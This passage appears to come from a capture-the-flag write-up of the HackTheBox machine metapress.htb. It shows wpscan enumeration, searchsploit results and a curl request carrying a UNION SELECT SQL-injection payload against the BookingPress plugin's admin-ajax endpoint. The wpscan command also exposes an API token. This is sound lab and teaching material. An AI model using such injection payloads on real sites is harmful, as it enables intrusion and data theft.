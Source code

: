 ```
$ wpscan --api-token FQVv71ka5LaR9z8xOr4saXCg0vAMyKKD4VQS2eOymUQ --enumerate p,t,u --url http://metapress.htb/ --plugins-detection aggressive
[!] Title: WordPress 5.6-5.7 - Authenticated XXE Within the Media Library Affecting PHP 8
 |     Fixed in: 5.6.3
 |     References:
 |      - https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29447
 |      - https://wordpress.org/news/2021/04/wordpress-5-7-1-security-and-maintenance-release/
 |      - https://core.trac.wordpress.org/changeset/29378
 |      - https://blog.wpscan.com/2021/04/15/wordpress-571-security-vulnerability-release.html
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-rv47-pc52-qrhh
 |      - https://blog.sonarsource.com/wordpress-xxe-security-vulnerability/
 |      - https://hackerone.com/reports/1095645
 |      - https://www.youtube.com/watch?v=3NBxcmqCgt4
```

This was the main exploit I found interesting because the version running on `metapress.htb` is version 5.6.2, while this was patched in 5.6.3. However, I don't have any credentials. Also, `wpscan` didn't pick up on any plugins for whatever reason.

While clicking on the URL within the blog post, I noticed that it was using a certain plugin.

<figure><img src="../../../.gitbook/assets/image (70) (5) (1).png" alt=""><figcaption></figcaption></figure>

This is a plugin that has a lot of vulnerabilities:

```
$ searchsploit wordpress booking
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
WordPress Plugin Appointment Booking Calendar 1.3.34 - CSV | php/webapps/48204.txt
WordPress Plugin Booking Calendar 3.0.0 - SQL Injection /  | php/webapps/44769.txt
WordPress Plugin Booking Calendar 4.1.4 - Cross-Site Reque | php/webapps/27399.txt
WordPress Plugin Booking Calendar 6.2 - SQL Injection      | php/webapps/40189.txt
```

The traffic reveals that this is version 1.0.10. Googling for exploits related to this plugin returns this page with a PoC:

{% embed url="https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357" %}

Using the exact PoC doesn't work though:

```
$ curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \ 
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sun, 07 May 2023 03:24:52 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
```